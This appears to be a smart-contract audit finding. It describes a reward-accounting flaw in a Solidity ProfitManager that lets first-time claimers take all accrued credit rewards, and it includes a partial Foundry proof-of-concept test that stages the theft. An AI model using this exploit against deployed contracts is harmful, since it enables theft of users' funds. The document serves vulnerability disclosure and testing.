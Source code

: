 ```solidity
430:             userGaugeProfitIndex[user][gauge] = _gaugeProfitIndex;
431:         }
432:         if (creditEarned != 0) {
433:             emit ClaimRewards(block.timestamp, user, gauge, creditEarned);
434:             CreditToken(credit).transfer(user, creditEarned);
435:         }
436:     }
```

If the user have never claimed a reward before, its `_userGaugeProfitIndex` is set to `1e18`, which basically means he was here before the gauge made a any profit, which means he's untilted to the whole profit.


## Impact

User can get undeserved rewards and steal all credit balance held by the `ProfitManager`.

## Proof of Concept


Add this test to `ProfitManager.t.sol` to see that Bob is able to steal the whole `ProfitManager` Credit balance
```solidity
    function test_auditIncrementGaugeAndGetRewardsAfterPnL() public {

		address carol = makeAddr("carol");

		// grant roles to test contract
		vm.startPrank(governor);
		core.grantRole(CoreRoles.GOVERNOR, address(this));
		core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
		core.grantRole(CoreRoles.GUILD_MINTER, address(this));
		core.grantRole(CoreRoles.GAUGE_ADD, address(this));
		core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
		core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
		vm.stopPrank();

		vm.prank(governor);
		profitManager.setProfitSharingConfig(
			0, // surplusBufferSplit
			0.5e18, // creditSplit
			0.5e18, // guildSplit
			0, // otherSplit
			address(0) // otherRecipient
		);
		guild.setMaxGauges(3);
		guild.addGauge(1, gauge1);
		guild.addGauge(1, gauge2);
		guild.mint(alice, 150e18);
		guild.mint(carol, 150e18);

		vm.startPrank(alice);
		guild.incrementGauge(gauge1, 50e18);
		guild.incrementGauge(gauge2, 50e18);
		vm.stopPrank();

		vm.startPrank(carol);
		guild.incrementGauge(gauge1, 50e18);
		vm.stopPrank();

        // simulate 100e18 total profit
		// 30e18 in gauge1 + 30e18 in gauge2, rest could be from other sources
		credit.mint(address(profitManager), 100e18);
```